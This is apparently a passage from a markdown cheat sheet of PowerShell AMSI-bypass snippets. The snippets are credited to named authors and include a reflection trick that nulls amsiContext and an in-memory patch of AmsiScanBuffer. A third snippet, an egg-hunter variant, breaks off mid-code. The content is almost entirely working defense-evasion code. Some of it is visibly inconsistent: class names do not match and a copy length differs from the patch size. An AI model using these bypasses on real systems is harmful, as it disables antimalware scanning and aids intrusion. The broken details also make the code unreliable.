 Another variant.

```powershell
$memory = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, [IntPtr]$memory)
```

## Rasta Mouse

```powershell
# Author: Rasta Mouse

$Win32API = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out lpflOldProtect);
}
"@
Add-Type $Win32API
$LoadLibrary = [Win32API]::LoadLibrary("amsi.dll")
$Address = [Win32API]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$oldprotect = 0
[Win32API]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$oldprotect)
$Patch = [Byte[]] (0xb8, 0x57, 0x00, 0x80, 0xc3) # E_INVALIDARG
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

## Am0nSec

```powershell
# Author: Am0nSec

$Win32API = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string lpLibFileName);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32API

Class Hunter {
    static [IntPtr] FindAddress([IntPtr]$address, [byte[]]$egg) {
        while ($true) {
            [int]$count = 0
```